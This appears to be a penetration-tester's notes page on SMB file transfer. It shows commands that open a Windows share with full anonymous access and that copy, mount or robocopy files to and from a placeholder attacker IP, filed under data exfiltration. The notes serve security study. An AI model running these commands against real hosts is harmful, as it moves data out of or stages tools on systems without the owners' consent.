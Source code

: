 # SMB

## 01 - Server Setup

### 1.1 - Comand Prompt

Create an anonymous SMB share.

```
C:\> md "<drive_letter>:\path\to\directory\" 

C:\> net.exe share <share_name>="<drive_letter>:\path\to\directory\" /grant:Everyone,FULL /grant:Guests,FULL /grant:"Anonymous Logon",FULL
```

To remove the SMB share.

```
C:\> net.exe share <share_name> /delete
```

### 1.2 - Powershell

Create an anonymous SMB share.

```
PS C:\> New-Item "<drive_letter>:\path\to\directory\" -ItemType Directory

New-SmbShare -Name "<share_name>" -Path "<drive_letter>:\path\to\directory\" -FullAccess "Everyone","Guests","Anonymous Logon"
```

To remove the SMB share.

```
PS C:\> Remove-SmbShare -Force -Name "<share_name>"
```

## 02 - Usage

### 2.1 - Command Prompt

List the files to check if the share is accessible.

```
C:\> dir \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
C:\> copy \\<attacker_IP>\<share_name>\<source> <destination>
```

For `/mt` flag switch run the command on windows that is related about hardware information from [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xI - Operating System/Kernel/Manual/Living off the Land|system and kernel version]] phase.

```
C:\> robocopy <source> \\<IP>\<share_name>\<destination> /s /r:0 /w:0 /copy:DA /dcopy:DA /mt:<threads>
```

You can mount the share remotely.

> [!INFO] Error Message
> The message is self-explanatory. Just specify username and password on the server side and it'll work just fine.
> 
> ```
> System error 1272 has occurred.
> 
> You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
> ```

```
C:\> net.exe use \\<attacker_IP>\<share_name> [/user:<username> <password>]

C:\> net.exe use <drive_letter>: \\<attacker_IP>\<share_name> [/user:<username> <password>]
```

To unmount the share network.

```
C:\> net.exe use /delete \\<attacker_IP>\<share_name>

C:\> net.exe use <drive_letter>: /delete
```

### 2.2 - PowerShell

List the files to check if the share is accessible.

```
PS C:\> Get-ChildItem \\<attacker_IP>\<share_name>
```

Copy the file from the network share.

```
PS C:\> Copy-Item \\<attacker_IP>\<share_name>\<source> <destination>
```

You can mount the share remotely. Pass the credentials if required.

```powershell
$password = ConvertTo-SecureString "<password>" -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)

New-PSDrive -Name <drive_letter> -PSProvider FileSystem -Root "\\<attacker_IP>\<share_name>" [-Credential $credential]
```

To unmount the share network.

```
PS C:\> Remove-PSDrive -Name <drive_letter>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Ports/SMB]]

### Chris Titus

- [Chris Titus: Robocopy](https://www.christitus.com/robocopy)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)